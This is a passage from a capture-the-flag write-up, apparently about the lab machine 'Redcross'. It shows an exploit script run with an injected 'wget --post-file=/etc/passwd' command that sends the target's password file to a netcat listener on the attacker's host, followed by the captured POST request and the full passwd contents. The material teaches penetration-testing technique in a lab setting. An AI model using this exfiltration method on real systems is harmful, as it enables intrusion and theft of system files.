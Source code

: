 From the output, it doesn't look like we actually get to see the output of the command executed so we need to get a bit creative.

Set up a nc listener and use wget to post file contents back to ourselves. In one console window run `nc -nlvp 80` then in another console window run the exploit:
```
root@kali: python 41162.py -c 'wget --post-file=/etc/passwd http://10.10.14.12' -t thoseguys@redcross.htb -m redcross.htb
```

Once the exploit has finished executing we can see that our nc listener has received the contents of the file:
```
root@kali: nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.113] 41420
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.12
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1968

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:110:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:111:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:112:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:113:118::/var/lib/saned:/bin/false
penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ftp:x:108:122:ftp daemon,,,:/srv/ftp:/bin/false
```

